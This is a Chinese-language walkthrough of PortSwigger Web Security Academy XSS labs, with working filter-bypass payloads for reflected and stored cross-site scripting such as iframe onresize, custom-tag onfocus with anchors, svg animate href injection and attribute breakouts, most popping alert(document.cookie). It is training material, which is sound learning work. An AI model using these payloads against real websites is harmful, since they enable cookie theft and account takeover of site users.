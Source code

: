 **目录：**

[TOC]

#### 1. Reflected XSS into HTML context with nothing encoded

很简单的一道题，有手就行

#### 2. Reflected XSS into HTML context with most tags and attributes blocked

题目说过滤了大多数标签，去找找还有什么标签可以使用。

直接用burp爆破tag和event（看状态码）

得到了tag为`body`，event为`onresize`

`onresize`要在窗口大小被改变的时候触发

用题目的exlpoit，在body部分构造一个iframe，然后onload事件在触发的时候改变大小

payload:(因为是在body部分，记得提前转码，好像不用转码也能过)

```html
<iframe src="https://acc91f9b1fff1f7980540718002a0084.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
<iframe src="https://ac321fb51e21f4e780230d4600710017.web-security-academy.net/?search=<body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
```

#### 3. Reflected XSS into HTML context with all tags blocked except custom ones

* 交互情况

过滤了除过自定义标签之外的所有HTML标签，但可以使用自定义标签。

自定义标签无法使用`onload`属性，但是onfocus可以使用，即聚焦触发（点击，而且可以多次），所以为了聚焦，还得需要给其聚焦的属性--`tabindex`

> **tabindex** [全局属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes) 指示其元素是否可以聚焦，以及它是否/在何处参与顺序键盘导航（通常使用Tab键，因此得名）。
>
> - tabindex=负值 (通常是tabindex=“-1”)，表示元素是可聚焦的，但是不能通过键盘导航来访问到该元素，用JS做页面小组件内部键盘导航的时候非常有用。
> - `tabindex="0"` ，表示元素是可聚焦的，并且可以通过键盘导航来聚焦到该元素，它的相对顺序是当前处于的DOM结构来决定的。
> - tabindex=正值，表示元素是可聚焦的，并且可以通过键盘导航来访问到该元素；它的相对顺序按照**tabindex** 的数值递增而滞后获焦。如果多个元素拥有相同的 **tabindex**，它们的相对顺序按照他们在当前DOM中的先后顺序决定。

`<xss tabindex=1 onfocus="alert(document.cookie)">`

但是聚焦的话，需要一个可以聚焦的对象，所以需要（可显示的）文字

`<xss tabindex=1 onfocus="alert(document.cookie)">aaaaa`

>**补充：经过仔细实测，不用（可显示的）文字也能聚焦触发，即对着前（或后）相应的位置按下即可**

payload:(exploit server)

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">aaaaa';
</script>
```

* 自动触发

自动触发的话，需要用户点击进入页面（exploit server）就自动聚焦，

为了实现自动聚焦，我们给标签添加一个id，然后在后面加上锚点，使用`#`

> <a>标记可以指向具有id属性的任何元素。
>
> 打开链接的时候也是同理

`<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x`

最终payload：

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x';
</script>
```

#### 4. Reflected XSS with event handlers and `href` attributes blocked

可用的tag有：a, animate, discard, image, svg, title

可用的event有：...一个都没有

href属性也不能用。应该是不能使用`href=`

但是在svg标签存在的情况下，animate可以给上一个标签赋值。

如

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/>Click me</a></svg>
```

> <animate attributeName=href values="javascript:alert(1)"/> 等同于
>
> <animate attributeName=href values="javascript:alert(1)"></animate>
>
> 即马上在后面添加标签结束符

这样就可以成功把`<a>`变成`<a href="javascript:alert(1)">`

但是这样不会显示`Click me`那个文本，因为在`<svg>`标签下，需要一个框的大小才能正常显示文字

添加大小的方式：`<text x=20 y=20>`或者`<rect width=100% height=100%>`(要求text标签包含文字)

所以最终payload：

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/><text x=20 y=20>Click me</text></a></svg>
<svg><a><animate attributeName=href values="javascript:alert(1)"/><rect width=100% height=100%>Click me</rect></a></svg>
```

#### 5.Reflected XSS with some SVG markup allowed

然后爆破出来可以用discard,image, svg, title四个标签以及onbegin事件

直接去[XSS-payload](../字典/XSS-payload.txt)搜索discard和onbegin

最终找到了`<svg><discard onbegin=alert(1)>`

#### 6.Reflected XSS into attribute with angle brackets HTML-encoded

题目的意思是，过滤了`<` 和`>`，并将它们替换成命名实体

显示考虑到用`<svg>`标签进行反实例化，但是`<svg>`本身就包含尖括号，已经不起作用

我一开始以为这个只会在顶上显示，然后后面翻了一下，发现有一个value，这就简单了，直接封闭然后onclick

```
"onclick="alert(1)
```

确实弹窗了，但是不给过，看了一下答案，用的是onmouseover，就很疑惑

payload

```
"onmouseover="alert(1)
```

#### 7.Stored XSS into anchor `href` attribute with double quotes HTML-encoded

这个题漏洞出在提交评论的地方。提交了几次之后发现位置。

![7](_XSS-hard_image/7.png)

发现没有过滤。。。就直接输入就可以了。

#### 8.Reflected XSS in canonical link tag

按键触发。canonical link tag。

![8](_XSS-hard_image/8.png)

发现位置。

首先需要闭合前面的，双引号被过滤了，用单引号。

payload：

```
url/?%27accesskey=%27x%27onclick=%27alert(1)
url/?%27accesskey=%27x%27onclick=%27alert(1)%27
```

#### 9.Reflected XSS into a JavaScript string with single quote and backslash escaped

![9](_XSS-hard_image/9.png)

找到位置。

没有过滤，直接闭合前面的script

payload：

```
</script><script>alert(1)</script>
```

#### 10.Reflected XSS into a JavaScript string with angle brackets HTML encoded

